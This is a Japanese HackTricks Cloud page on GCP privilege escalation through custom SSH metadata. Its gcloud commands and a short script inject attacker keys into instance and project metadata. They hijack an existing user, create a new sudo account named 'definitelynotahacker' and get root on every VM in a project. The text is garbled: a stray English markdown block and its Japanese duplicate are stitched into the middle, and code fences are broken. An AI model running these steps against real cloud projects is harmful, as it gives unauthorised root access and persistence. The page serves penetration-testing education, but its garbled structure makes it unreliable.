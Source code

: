# GCP - カスタムSSHメタデータの追加

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

**インスタンスのメタデータを変更する権限**を持つ攻撃者は、この権限を持つサービスアカウントに妥協/エスカレーションする可能性があります（これはスコープによって制限される可能性があります）：

### **SSHキーをカスタムメタデータに追加する**

GCP上の**Linux** **システム**は通常、[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)スクリプトを実行しています。これらの中には、**定期的に**インスタンスのメタデータエンドポイントを**問い合わせて、承認されたSSH公開キーの変更をチェックする**[accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)があります。

**新しい公開**キーが検出されると、それは処理されて**ローカルマシンに追加**されます。キーの形式によっては、**既存のユーザーの** `~/.ssh/authorized_keys` ファイルに追加されるか、**`sudo`権限を持つ新しいユーザーを作成します**。

したがって、サービスアカウントで**カスタムインスタンスメタデータを変更**できる場合、特権アカウントへのSSH権限を**取得することで**ローカルシステム上でrootに**エスカレーション**することができます。**カスタムプロジェクトメタデータを変更**できる場合、accounts daemonを実行している現在のGCPプロジェクト内の**任意のシステム**でrootに**エスカレーション**することができます。

### **既存の特権ユーザーにSSHキーを追加する**

まず、既存のアカウントに自分のキーを追加することから始めましょう。これがおそらく最も少ない騒音を立てるでしょう。

**インスタンスで既存のSSHキーをチェック**します。これらのユーザーの1つを選びます。彼らはsudo権限を持っている可能性が高いです。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
```markdown
# GCP Compute Privilege Escalation via Custom SSH Metadata

## Overview

In GCP, instances can have custom metadata that can be used to manage SSH keys. If you have the permission to edit an instance's metadata, you can add your own SSH key and gain access to that instance.

## Prerequisites

- You must have the `compute.instances.setMetadata` permission on the target instance.
- You must have an SSH key pair.

## Steps

1. Generate an SSH key pair if you do not have one.
2. Access the GCP console and navigate to the target instance.
3. Edit the instance's metadata.
4. Add your SSH public key to the instance's metadata.
5. SSH into the instance using your private key.

## Considerations

- Ensure that the SSH key is in the correct format for GCP.
- Be aware that your activities may be logged and could trigger security alerts.
```

# GCP Compute Privilege Escalation via Custom SSH Metadata

## 概要

GCPでは、インスタンスにはSSHキーを管理するために使用できるカスタムメタデータがあります。インスタンスのメタデータを編集する権限がある場合、自分のSSHキーを追加してそのインスタンスへのアクセスを取得できます。

## 前提条件

- 対象インスタンスに`compute.instances.setMetadata`権限が必要です。
- SSHキーペアを持っている必要があります。

## 手順

1. SSHキーペアを持っていない場合は、生成してください。
2. GCPコンソールにアクセスし、対象インスタンスに移動します。
3. インスタンスのメタデータを編集します。
4. SSH公開キーをインスタンスのメタデータに追加します。
5. 私有キーを使用してインスタンスにSSHで接続します。

## 考慮事項

- SSHキーがGCPの正しい形式であることを確認してください。
- 活動がログに記録され、セキュリティアラートを引き起こす可能性があることに注意してください。
```
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
以下の公開鍵の**やや奇妙な形式**に注意してください - **ユーザー名**が**先頭**に記載されています（コロンに続いて）そして再び**最後**に。この形式に合わせる必要があります。通常のSSHキー操作とは異なり、ユーザー名は絶対に重要です！

**ユーザー名とキーを含む行を新しいテキスト**ファイル`meta.txt`に保存します。

上記のユーザー`alice`をターゲットにすると仮定しましょう。次のように自分用の**新しいキーを生成**します：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
ファイル `meta.txt` に新しい公開鍵を以下の形式で追加します：
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Now, you can **SSHキーメタデータを書き換える** 以下のコマンドでインスタンスに対して:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
以下のようにして、`alice`のコンテキストで**シェルにアクセス**できます：
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **新しい特権ユーザーを作成し、SSHキーを追加する**

上記の手順に従っても既存のキーが見つからない場合、または`/etc/passwd`でターゲットにする他の興味深いユーザーがいない場合はどうでしょうか？

**同じプロセスに従って**、ただ**新しいユーザー名を作ります**。このユーザーは自動的に作成され、`sudo`の権利が与えられます。スクリプト化されたプロセスは以下のようになります：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

前のセクションで述べた詳細に従って、さらに多くのVMを侵害しようとすることができます。

これらに少し詳しく触れることで、["Block project-wide SSH keys" オプションを明示的に選択していない任意のインスタンスに対して、**特権アカウントへのSSHアクセス**を許可する、[**プロジェクトレベルでのSSHキーの適用**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)が可能になります。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
大胆な場合は、`gcloud compute ssh [INSTANCE]` を入力して、他のボックスで現在のユーザー名を使用することもできます。

# 参考文献
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で AWS ハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式 PEASS & HackTricks グッズ**](https://peass.creator-spring.com) を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) コレクションをチェックする
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォロー** してください。
* **HackTricks** の GitHub リポジトリ [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) に PR を提出して、あなたのハッキングのコツを共有してください。

</details>
